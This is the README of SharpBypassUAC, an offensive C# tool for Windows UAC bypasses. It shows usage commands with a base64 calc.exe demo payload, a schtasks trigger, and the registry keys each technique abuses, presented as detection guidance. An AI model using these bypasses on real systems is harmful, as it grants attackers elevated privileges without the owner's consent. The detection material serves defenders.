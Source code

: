 # SharpBypassUAC
C# tool for UAC bypasses

# Usage
SharpBypassUAC currently supports the **eventvwr**, **fodhelper**, **computerdefaults**, **sdclt**, **slui**, and **DiskCleanup** UAC bypasses.

SharpBypassUAC accepts a base64 encoded windows command to be executed in high integrity. The command is base64 encoded to be easily used in tools such as Covenant's "Assembly" task

## Parameters
  -b, --bypass=VALUE         Bypass to execute: eventvwr, fodhelper, computerdefaults, sdclt, slui
  
  -e, --encodedCommand=VALUE Base64 encoded command to execute

### Example usage for eventvwr bypass to launch calc.exe
SharpBypassUAC.exe -b eventvwr -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

### Example usage for fodhelper bypass to launch calc.exe
SharpBypassUAC.exe -b fodhelper -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

### Example usage for computerdefaults bypass to launch calc.exe
SharpBypassUAC.exe -b computerdefaults -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

### Example usage for sdclt bypass to launch calc.exe
SharpBypassUAC.exe -b sdclt -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl
- Note: this appears to only work on Windows 10 in my testing

### Example usage for slui bypass to launch calc.exe
SharpBypassUAC.exe -b slui -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

### Example usage for DiskCleanup bypass to launch calc.exe
SharpBypassUAC.exe -b dikcleanup -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhlICYmIFJFTQ==
- Note: The command you execute will need to end in "&& REM"

## Detections
Most of these bypasses rely on modifying registry keys in the HKCU hive, specifically keys under HKCU\Software\Classes\. HKCU\Software\Classes\ should be monitored for any new keys or modification to existing keys. If this is too noisy in your environment, the specific keys used for each technique are listed below.

### Eventvwr
Registry modifications to:
- HKCU\Software\Classes\mscfile\Shell\Open\command
  - Modifies the "(default)" value with the command to execute

### Fodhelper
Registry modifications to:
- HKCU\Software\Classes\ms-settings\Shell\Open\command
  - Modifies the "(default)" value with the command to execute
  - Modifies the "DelegateExecute" value with an empty value
  
### Computerdefaults
Registry modifications to:
- HKCU\Software\Classes\ms-settings\Shell\Open\command
  - Modifies the "(default)" value with the command to execute
  - Modifies the "DelegateExecute" value with an empty value

### SDCLT
Registry modifications to:
- HKCU\Software\Classes\Folder\shell\open\command
  - Modifies the "(default)" value with the command to execute
  - Modifies the "DelegateExecute" value with an empty value

### SLUI
Registry modifications to:
- HKCU\Software\Classes\exefile\Shell\Open\command
  - Modifies the "(default)" value with the command to execute

### DiskCleanup
Registry modifications to:
- HKCU\Environment
  - Modifies the "windir" value with the command to execute

Starts the "\Microsoft\Windows\DiskCleanup\SilentCleanup" scheduled task. Example:

schtasks /Run /TN \\Microsoft\\Windows\\DiskCleanup\\SilentCleanup /I

# Credits
**eventvwr**:
[enigma0x3's](https://github.com/enigma0x3) [Invoke-EventVwrBypass.ps1 script](https://github.com/enigma0x3/Misc-PowerShell-Stuff/blob/master/Invoke-EventVwrBypass.ps1)

**fodhelper** and **computerdefaults**:
[winscripting.blog's](https://github.com/winscripting) [FodhelperBypass.ps1 script](https://github.com/winscripting/UAC-bypass)

**sdclt**: [Emeric Nasi's](https://twitter.com/emericnasi?lang=en) [blog post](http://blog.sevagas.com/?Yet-another-sdclt-UAC-bypass)

**slui**: [bytecode77's](https://github.com/bytecode77) [slui file handler hijack tool](https://github.com/bytecode77/slui-file-handler-hijack-privilege-escalation)

**DiskCleanup**: [enigma0x3's](https://github.com/enigma0x3) Bypassing UAC on Windows 10 using Disk Cleanup [blog post](https://enigma0x3.net/2016/07/22/bypassing-uac-on-windows-10-using-disk-cleanup/) and [gushmazuko's](https://github.com/gushmazuko) [DiskCleanupBypass_direct.ps1 script](https://github.com/gushmazuko/WinBypass/blob/master/DiskCleanupBypass_direct.ps1)

Many of these were discovered by going through the **UACME** project found on [github](https://github.com/hfiref0x/UACME/).
